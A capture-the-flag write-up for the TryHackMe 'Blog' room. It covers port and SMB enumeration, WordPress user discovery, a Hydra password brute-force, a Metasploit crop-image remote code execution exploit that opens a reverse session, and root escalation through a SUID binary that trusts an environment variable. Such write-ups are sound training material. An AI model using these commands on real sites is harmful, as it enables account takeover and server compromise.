










# Blog


---

## Intro

| Room Info           |            |
| :------------------ | --------------------------------------- |
| 🔗 Name              | [Blog](https://tryhackme.com/room/blog) |
| 🎯 Target IP         | `10.10.54.35`                           |
| 📈 Difficulty level  | 🟡Medium                                 |
| 💲 Subscription type | Free                                    |
| 🐧 OS                | Linux                                   |

---

## Recon

Add `blog.thm` to the `/etc/hosts` file

```bash
su
echo "10.10.54.35 blog.thm" >> /etc/hosts

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

Start Reconnaissance

```bash
mkdir blog
cd blog
nmap blog.thm
    22/tcp  open  ssh
    80/tcp  open  http
    139/tcp open  netbios-ssn
    445/tcp open  microsoft-ds

nmap -sV -sC -Pn -oA blog blog.thm 
```

```bash
22/tcp  open  ssh  OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 578ada90baed3a470c05a3f7a80a8d78 (RSA)
|   256 c264efabb19a1c87587c4bd50f204626 (ECDSA)
|_  256 5af26292118ead8a9b23822dad53bc16 (ED25519)
80/tcp  open  http  Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-generator: WordPress 5.0
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2023-05-15T08:44:45+00:00
| smb2-time: 
|   date: 2023-05-15T08:44:45
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 3s, deviation: 0s, median: 3s
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
```

Enumerate web server application

```bash
nmap -p 80 --script=http-enum -sV blog.thm
```

```bash
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-enum: 
|   /wp-login.php: Possible admin folder
|   /wp-json: Possible admin folder
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2 
|   /: WordPress version: 5.0
|   /feed/: Wordpress version: 5.0
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|_  /0/: Potentially interesting folder
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

- `http://blog.thm/`
- `http://blog.thm/robots.txt`
  - Disallow: `/wp-admin/`

> 🚩 The web server uses the **`WordPress 5.0`** CMS

- `http://blog.thm/wp-admin/`
  - tried default `admin`:`password` - does not work

Perform some SMB enumeration

```bash
nmap -p445 --script smb-protocols blog.thm
| smb-protocols: 
|   dialects: 
|     NT LM 0.12 (SMBv1) [dangerous, but default]
|     202
|     210
|     300
|     302
|_    311

smbmap -u guest -p "" -d . -H blog.thm

smbclient -L blog.thm -N
smbclient //blog.thm/BillySMB -N

get check-this.png
# This looks like a rabbit hole
```





```bash
enum4linux -a blog.thm
```

> 📌 Found local user **`bjoel`**

Enumerate all the WordPress users using `WpScan`

```bash
wpscan --url=http://blog.thm --enumerate u
```





> 📌 Found 2 WordPress users: `bjoel`, `kwheel`

Check for WordPress 5.0 vulnerabilities

```bash
searchsploit wordpress 5.0
```



> There is a vulnerability called [WordPress Core 5.0.0 - Crop-image Shell Upload](https://www.exploit-db.com/exploits/46662)
>
> *This module exploits a path traversal and a local file inclusion vulnerability on WordPress versions 5.0.0 and <= 4.9.8.
> The crop-image function allows a user, with at least author privileges,
> to resize an image and perform a path traversal by changing the _wp_attached_file reference during the upload.
> The second part of the exploit will include this image in the current theme by changing the _wp_page_template attribute when creating a post.*

Since Karen Wheeler has author access to the blog, brute force the user `kwheel`.

Navigate to `http://blog.thm/wp-login.php` and try a password with user `kwheel`. Copy the HTTP POST request in raw format, it is necessary for the `Hydra` command.

```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.54.35%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V

# Third string is the test condition, F: = test for failure. String got from the HTTP response.

# WPScan
echo -e 'kwheel'> user.txt
wpscan --url http://blog.thm -P /usr/share/wordlists/rockyou.txt -U user.txt -t 75
```



> 📌 `kwheeler`:`cutiepie1`

---

## Exploitation

Use Metasploit with module `exploit/multi/http/wp_crop_rce`

```bash
metasploit -q

setg RHOSTS blog.thm
setg RHOST blog.thm
use exploit/multi/http/wp_crop_rce
set LHOST 10.18.65.48
set USERNAME kwheel
set PASSWORD cutiepie1
run
```



```bash
shell
script -qc /bin/bash /dev/null

find / -type f -iname user.txt 2>/dev/null
ls /home/bjoel/
cat /home/bjoel/user.txt
    You won't find what you're looking for here.
    TRY HARDER

exit # to exit the shell
```

Download the `.pdf` file

```bash
download /home/bjoel/Billy_Joel_Termination_May20-2020.pdf
```



```bash
shell

ls /media/usb
ls: cannot open directory '/media/usb': Permission denied
```

---

## Privilege Escalation

```bash
find / -perm -u=s -type f 2>/dev/null
```



Try to run `/usr/sbin/checker`

```bash
/usr/sbin/checker
	Not an Admin
```

If `ltrace` is present on the machine use it. If not, download the file with Meterpreter and check it in Kali with `ltrace` or `Ghidra`.

```bash
ltrace /usr/sbin/checker
```

```bash
getenv("admin") 		= nil
puts("Not an Admin") 	= 13
Not an Admin
+++ exited (status 0) +++
```

The binary requires the `admin` environment variable to be declared

```bash
export admin=thm
```

```bash
/usr/sbin/checker

# root shell
```



```bash
find / -type f -iname user.txt 2>/dev/null
cat /media/usb/user.txt
c8421***************************

find / -type f -iname root.txt 2>/dev/null
cat /root/root.txt
9a0b2***************************
```

------

